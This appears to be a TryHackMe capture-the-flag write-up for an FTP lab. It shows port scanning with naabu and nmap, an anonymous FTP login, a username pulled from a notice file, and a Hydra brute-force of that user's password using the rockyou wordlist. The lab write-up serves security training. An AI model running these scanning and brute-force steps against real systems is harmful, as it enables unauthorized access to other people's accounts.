


#  TryHackMe FTP Challenge - Writeup

---

## 1.  Enumerate Open Ports with Naabu
```bash
naabu -host 10.10.28.125
```

 Result:
```
10.10.28.125:80
10.10.28.125:21
10.10.28.125:22
```

---

## 2.  Scan Services Using Nmap
```bash
nmap -sS -Pn -sV -p 21 10.10.28.125
```

 Output:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
Service Info: Host: Welcome
```

---

## 3.  Try Accessing FTP as Anonymous
```bash
ftp 10.10.28.125
```

Enter `anonymous` as the username and press enter for password.  
 Login successful without password.



---

## 4.  List Files and Read FTP Message
```bash
ls
cat PUBLIC_NOTICE.txt
```



 Message Content:
```
===================================
MESSAGE FROM SYSTEM ADMINISTRATORS
===================================

Hello,

I hope everyone is aware that the
FTP server will not be available 
over the weekend- we will be 
carrying out routine system 
maintenance. Backups will be
made to my account so I reccomend
encrypting any sensitive data.

Cheers,
Mike 
```

 Extracted Username: `Mike`

---

## 5.  Brute Force FTP Password using Hydra
```bash
hydra -l Mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.28.125 ftp
```


---

## 6.  Get the Flag

Successfully logged in using `Mike`'s credentials.  
Flag retrieved from FTP!


